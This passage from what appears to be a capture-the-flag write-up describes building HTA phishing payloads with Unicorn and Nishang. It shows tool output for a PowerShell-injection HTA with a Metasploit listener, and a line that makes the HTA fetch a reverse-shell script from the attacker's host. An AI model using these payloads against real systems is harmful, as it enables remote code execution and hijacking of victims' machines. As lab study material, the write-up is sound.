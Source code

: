 ```a
[*******************************************************************************************************]

                -----HTA ATTACK INSTRUCTIONS----

The HTA attack will automatically generate two files, the first the index.html which tells the browser to
use Launcher.hta which contains the malicious powershell injection code. All files are exported to the
hta_access/ folder and there will be three main files. The first is index.html, second Launcher.hta and the
last, the unicorn.rc (if metasploit was used) file. You can run msfconsole -r unicorn.rc to launch the listener
for Metasploit. If you didn't use Metasploit, only two files will be exported.

A user must click allow and accept when using the HTA attack in order for the powershell injection to work
properly.

[*******************************************************************************************************]

    
[*] Exported index.html, Launcher.hta, and unicorn.rc under hta_attack/.
[*] Run msfconsole -r unicorn.rc to launch listener and move index and launcher to web server.

[*] Exported index.html, Launcher.hta, and unicorn.rc under hta_attack/.
[*] Run msfconsole -r unicorn.rc to launch listener and move index and launcher to web server.
```

But the outcome was the same.

---

## Exploitation attempt 3: Python script + Nishang

So I decided to leave Meterpreter alone for now and see if I could get it to work with Nishang since it has a script to generate HTA payloads:

```a
┌─[✗]─[baud@parrot]─[~]
└──╼ $locate nishang | grep HTA
/usr/share/nishang/Client/Out-HTA.ps1
```
PowerShell must be installed on the box in order to execute the script locally if using a Linux box but that doesn't take much to do. I'm going to let the HTA file download Nishang's .ps1 reverse shell so at the bottom of Out-HTA.ps1 I added:

```a
Out-HTA -PayloadURL http://10.10.14.37/baudy.ps1
```

And at the bottom of Invoke-PowerShellTcp.ps1:
